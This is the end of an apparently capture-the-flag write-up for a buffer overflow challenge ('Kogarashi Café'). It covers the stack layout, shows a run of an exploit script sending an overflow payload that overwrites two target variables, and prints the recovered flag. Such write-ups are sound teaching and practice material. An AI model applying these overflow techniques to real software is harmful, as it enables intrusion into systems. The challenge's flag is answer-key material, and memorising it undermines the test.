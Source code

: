 Let's double-check our exploit logic based on the stack layout:
- The buffer is at `[ebp-0x30]` and is 32 bytes long
- `target2` is at `[ebp-0x10]` (4 bytes)
- `target1` is at `[ebp-0xc]` (4 bytes)

Our payload matches this layout perfectly.

## Exploiting the Binary

When we run our exploit against the binary:

```
$ python exploit.py
Welcome back to Kogarashi Café.
Barista: 'I remember you... what will it be this time?'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xad\xfb\xca\xde3\xff\xc0^@
Barista: 'Ah... I knew you'd figure it out. One moment.'
Barista: 'Ah... I see you've returned for the special blend.'
apoorvctf{d3caf_is_bad_f0r_0verfl0ws}
```

Success! We've successfully exploited the buffer overflow and retrieved the flag.


## Conclusion

This challenge demonstrates a classic buffer overflow vulnerability with a straightforward exploitation path. By understanding the memory layout and the program's behavior, we were able to craft a precise payload that overwrites specific variables with the values needed to trigger the flag-revealing function.
